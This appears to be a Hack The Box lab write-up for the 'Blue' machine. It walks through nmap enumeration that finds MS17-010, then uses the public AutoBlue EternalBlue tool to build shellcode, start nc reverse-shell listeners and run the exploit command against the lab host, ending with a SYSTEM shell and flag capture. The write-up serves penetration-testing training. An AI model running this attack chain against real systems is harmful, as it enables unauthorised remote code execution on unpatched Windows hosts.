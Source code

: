 ```yaml
---
title: "Hack The Box - Blue"
published: true
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Clone the AutoBlue repository](#clone-the-autoblue-repository)
  - [Build shellcode](#build-shellcode)
  - [Setup listeners](#setup-listeners)
  - [Run the exploit](#run-the-exploit)
  - [Loot!](#loot)

---

## Machine Info

![](/assets/htb-blue/machine_info.png)

## Enumeration

Initial `nmap` scans using `autorecon` show a basic layout of SMB/RPC, with the SMB service returning our target OS as Windows 7 Pro.

```
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.049s latency).
Scanned at 2020-01-08 10:21:05 EST for 155s
Not shown: 65526 closed ports
Reason: 65526 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The great thing about `autorecon` is that it will do deeper `nmap` scans for the ports it does find. When it ran a SMB vuln check on port 445, it found the following:

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Looks like the machine is vulnerable to EternalBlue (MS17-010). While this attack vector would be cake with Metasploit, I'm going to go the non-MSF route, since I'm training for the OSCP exam.

---

## Initial Shell

### Clone the AutoBlue repository

Since we won't be using MSF for the easy win, we'll need to use some other exploits to more manually exploit the machine. The [AutoBlue repository](https://github.com/3ndG4me/AutoBlue-MS17-010) is perfect for this. Yes, it still has pre-built exploits, and automates the building of the shellcode for you. But it's still a much more manual process then Metasploit, where you literally just point and click.

To grab the repo, we can use the following command sequence. This will change our directory to `/opt`, clone the repo to `/opt/autoblue`, and navigate to the new directory.

```shell
cd /opt
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git autoblue
cd autoblue
```

Now that we have the tools we need, we can start assembling some shellcode.

### Build shellcode

Part of what makes `AutoBlue` so great is that it helps you to pre-build the shellcode with a built-in script.

From the `/opt/autoblue` directory, we need to `cd` to the `shellcode` directory, and run `./shell_prep.sh`. From there, simply enter the information requested. The script will feed the variables into `msfvenom` to generate the shellcode files. It will also merge them into a single file, which gives us a single bullet, that will handle both x86 and x64 targets.

![](/assets/htb-blue/shellcode_script.png)

You'll note that I decided to go with a stageless, non-meterpreter payload. This way I can simply run dual `nc` listeners to capture the returned shell later.

### Setup listeners

While `AutoBlue` does contain a script to setup and launch MSF listeners for you (via the `exploit/multi/handler` module), my experience with this script has been pretty poor. Since I'm running stageless and non-meterpreter, simple `nc` listeners will capture the shell just fine. Remember that since the x86 and x64 shellcode was merged, and targeted at different ports, we need to setup listeners on both ports 7500 and 7600.

We can run `nc -lvnp 7500` and `nc -lvnp 7600` to setup the listeners.

![](/assets/htb-blue/nc_listeners_norun.png)

### Run the exploit

Now that we have all the parts needed, we can run the actual exploit.

From the `/opt/autoblue` directory, we can run the `eternalblue_exploit7.py` script. The help text shows that we need to specify the target IP and shellcode file.

![](/assets/htb-blue/exploit_help.png)

We can run the command `python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin` to trigger the exploit.

![](/assets/htb-blue/eternalblue_run.png)

Taking a look at the `nc` listeners, we get a shell back on port 7600 (via the x64 shellcode)

![](/assets/htb-blue/nc_listeners.png)

Running `whoami` reveals that we're already running as `nt authority\system`, so privlege escalation won't be needed.

![](/assets/htb-blue/whoami.png)

### Loot!

All that's left is to grab the flags on the system.

We know `root.txt` is in `C:\Users\Administrator\Desktop` like normal, so we can easily grab that.

![](/assets/htb-blue/root_proof.png)

However, since we came in as `nt authority\system`, we haven't had to touch any user accounts.

If we run `dir` on `C:\Users`, we can see the name of the user we're looking for is `haris`. Sure enough, the `user.txt` flag is in `C:\Users\haris\Desktop`.

![](/assets/htb-blue/user_dir.png)

![](/assets/htb-blue/user_proof.png)